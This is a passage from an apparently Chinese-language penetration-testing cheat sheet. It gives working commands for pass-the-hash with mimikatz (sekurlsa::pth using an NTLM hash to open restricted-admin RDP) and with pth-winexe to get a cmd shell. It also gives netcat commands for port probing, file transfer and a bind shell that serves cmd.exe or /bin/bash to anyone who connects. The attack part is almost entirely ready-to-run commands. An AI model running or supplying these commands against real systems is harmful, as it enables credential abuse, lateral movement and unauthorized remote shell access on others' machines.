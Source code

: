 - **mimikatz**
    ```
    privilege::debug
    sekurlsa::pth /user:目标机器的用户名 /domain:目标机器的域(工作组则为.) /ntlm:用户名对应的hash "/run:mstsc.exe /restrictedadmin"
    ```

- **pth-winexe**

    PTH 套件每个工具都针对 WIN 下响应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 需要替换成空的LM hash加密值: aad3b435b51404eeaad3b435b51404ee
    ```

---

## 端口转发
### netcat
**tcp 端口连接**
```bash
smtp: nc -nv 192.168.30.35 25 help
pop3: nc -nv 192.168.30.35 110 user xxx pass xxx
imap: nc -nv 192.168.30.35 143
```

**chat**
```bash
nc -nvlp 4444                  # A主机
nc -nv 192.168.30.35 4444      # B主机
```

**文件传输**
```bash
# 收
nc -nvlp 4444 > aaa                          # win
nc -nvlp 4444 > aaa

# 发
nc -nv 192.168.30.35 4444 </usr/share/aaa    # kali
```

**bind shell**
```bash
# 被控端
nc -lvp 4444 -e cmd.exe     # win
nc -lvp 4444 -e /bin/bash   # linux

# 攻击端
nc -nv 192.168.30.35 4444
```
